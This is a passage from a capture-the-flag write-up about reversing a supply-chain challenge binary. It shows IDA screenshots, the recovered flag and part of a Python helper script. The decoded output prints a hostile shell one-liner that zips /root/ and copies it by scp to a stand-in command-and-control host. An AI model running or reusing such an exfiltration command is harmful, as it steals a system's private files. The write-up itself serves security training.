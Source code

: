 ![ida-1.png](../../images/protect-the-supply-ida-1.png)

![ida-2.png](../../images/protect-the-supply-ida-2.png)

The resulting output gives us the flag once we do the simple reversing.

```
echo "Nope";v1="CTF{C0n7r0Ll1NG_";zip -r exf.zip /root/;scp exf.zip root@c2.maldomain.del:/yeet_data/;v2="5h3_5uppLy_";rm exf.zip;v3="Ch41n_15_7h3_K#Y!!!!}";echo "GG";
Really Not A MalwareTotally Not A Malware
```

**Flag:** `CTF{C0n7r0Ll1NG_5h3_5uppLy_Ch41n_15_7h3_K#Y!!!!}`

Script:

```py
s = """
0x0 = 4
0x1 = 2
0x2 = 9
0x3 = 0xe
0x4 = 0x42
0x5 = 0x43
0x6 = 0x2f
0x7 = 0xe
0x8 = 0x13
0x9 = 4
0xa = 0x43
0xb = 0x5a
0xc = 0x12
```